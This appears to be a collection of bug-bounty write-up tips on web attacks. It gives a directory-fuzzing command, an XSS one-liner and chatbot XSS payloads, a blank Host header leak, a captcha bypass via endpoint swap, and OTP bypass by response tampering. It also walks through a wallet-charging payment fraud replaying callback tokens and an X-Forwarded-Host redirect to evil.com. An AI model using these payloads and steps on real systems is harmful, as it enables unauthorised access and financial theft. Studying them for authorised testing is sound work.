 # Writeups (Golden tips)

## Information Disclosure
```bash
# directory fuzzing for sensitive files
dirsearch -u “https://target.com” -t 150 -x 403,404,500,429 -i 200,301,302 --random-agent
```
## Reflected XSS (Non-Persistent XSS)
```bash
# XSS one liner
echo "target.com" | gauplus | grep "?" | qsreplace 'xssz"><img/src=x onerror=confirm(999)><!--' | httpx -mr '"><img/'
```
**What this command do?**

1st it look for urls using a tool called `gauplus` or you can use `waybackurls` or waymore, thes are great tools too to find archived urls, then it get all the urls with parameters and replace all the values of the parameter with the payload `xssz”><img/src=x onerror=confirm(999)><!--` than using `HTTPX` tool it will give you all the request that contain our malicious payload on the responce with no filters.

## The Blank Host Header trick
**Concise tip:** Try to find places in websites where the “host” HTTP header is reflected on the page. If you find this, try a blank host header in the request and the website may leak internal hostnames!

If a site is reflecting the host header in the response even when you it to something like example.com, it may be vulnerable to this. First, you need to change the HTTP protocol on the request from `HTTP/1.1`, the default, to `HTTP/1.0`. This is because empty host headers are invalid in the newer protocol. This is done in different ways depending on how you are replaying this HTTP request, but for example in Burp Repeater, you simply change `HTTP/1.1` in the top line of the request to `HTTP/1.0`. Next, you want to make the `host` HTTP header **blank**, so it looks like `Host:`. Now when you send the request, the response may show an IP address or a weird looking web address where the host header was previously reflected. **99%** of the time this is an **internal hostname or an internal IP address**. These can be used in other exploits to perform attacks on internal infrastructure, so companies generally do not want these leaked!

This is common on `Apache` servers when the bottom line of an error page reads something like **Apache Server at example.com Port 443** because example.com is simply being reflected from the host header in the request.


## Captcha Bypass
1. The following request is related to entering the system:
```html
POST /Auth/LoginWithPasswordCaptcha HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
---snip---

Connection: close{"username":"XXXXX","password":"111111","deviceName":"Netscape-5.0 (Windows)","captchaCode":"acvb","captchaId":"77e148fc-9fb8-48a5-af25-699761fbb223","deviceInfo":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0"}
```
2. If the attacker deletes the captcha code variable in the body and changes /Auth/LoginWithPasswordCaptcha to /Auth/LoginWithPassword in the url, the implemented captcha mechanism will be bypassed and the attacker can implement it this way. make a pervasive search attack.
```html
POST /Auth/LoginWithPassword HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
---snip---

Connection: close{"username":"XXXXX","password":"111111","deviceName":"Netscape-5.0 (Windows)","deviceInfo":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0"}
```

## OTP Bypass
1. The following request is a request to check the otp in the digital signature section:
```html
POST /SignatureCertificate/CheckOtp HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
---snip---

```
2. If the entered otp is wrong, the following answer will be returned:
```html
HTTP/1.1 400 Bad Request
Server: nginx
Content-Type: application/json; charset=utf-8
Set-Cookie: cookiesession1=678B286C2DE65BDFC274EB1DEB4B88A6;Expires=Tue, 29 Jul 2025 11:54:43 GMT;Path=/;HttpOnly
---snip---

{"isFailed":true,"isSuccess":false,"reasons":[{"message":"Your code has expired! Please get a new code!","metadata":{}}]," errors":[{"reasons":[],"message":"Your code has expired! Please get a new code!","metadata":{}}],"successes":[]}
```
3. If the attacker sets the `isFailed` value to `False` and the `isSuccess` value to `True` in this **response**, he can easily bypass the OTP authentication mechanism without having access to the correct code!

## Wallet Charging Bypass
1. By using this attack, the attacker can pay a smaller amount and charge a larger amount to his wallet by changing the tokens. First, buy 5$ normally in the charging section of the wallet and do not send the call back request, drop it and intercept it:

**Sample call back request**
```html
POST /ResultTransaction?trackingCode=51376940 HTTP/1.1
Host: target.com 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0 
---snip---
 
Token=28907420839252952&OrderId=51376940&TerminalNo=85053207&RRN=743808093455&status=0&HashCardNumber=1AAC1ADAF6CB22AC0D404DBF729427517001DB42EC74282B0A182A2B011968CF&Amount=100%2C000&SwAmount=&STraceNo=400534&DiscoutedProduct=
```
2. Then make a new payment with a higher amount and click cancel at the time of payment and intercept the corresponding call back and put the body of the previous request in this request and finally put the `orderId` of the higher amount request in the request.
3. Final request:
```html
POST /ResultTransaction?trackingCode=51489803 HTTP/1.1
Host: target.com 
---snip---

Token=28907420839252952&OrderId=51489803&TerminalNo=8521900539207&RRN=743807548093455&status=0&HashCardNumber=1AAC1ADAF6CB22AC450D404DBF7294277517001DB42EC74282B0A182A2B011968CF&Amount=100%2C000&SwAmount=&STraceNo=400534&DiscoutedProduct==
```
* Finally, the message of unsuccessful transaction is displayed to the user, but the **wallet is charged successfully**.

## XSS on Chatbot
1. Recon on wildcard target `*.target.com` by `subfinder` and `httpx`
2. Find `https://support.target.com/robots.txt` and then open the `https://support.target.com/` and see a chatbot
3. Send `<u>wearehackerone</u>`
4. Then guess what, it take the HTML tag and **render** it into the box
5. Send `<img src=1 href=1 onerror="javascript:alert(1)">`


![chatbot-xss](https://github.com/user-attachments/assets/0f75b8a4-b890-41e0-b3e0-e17dc450c8cf)



## Host Header Injection
1. After approximately seven hours of continuous hunting, I discovered a subdomain with a URL containing the parameter `path=`
2. My initial thought was to explore potential Server-Side Request Forgery (SSRF) or open redirect vulnerabilities. Despite trying several methods, I was unable to find anything significant.
3. I noticed the presence of the `X-Forwarded-Host` header
4. I initially tested this with apple.com, which resulted in a response redirecting to apple.com. The response header contained the value `Location: https://apple.com/en`. Not finding anything unusual, I carefully examined the response and decided to test further by changing the header value to `evil.com`.
5. To my surprise, instead of blocking the request, the server redirected me to `evil.com`. This indicated a significant **host header injection** vulnerability that could be exploited


![open-redirect](https://github.com/user-attachments/assets/8b4b6362-0b5d-4036-beea-51eff948f627)















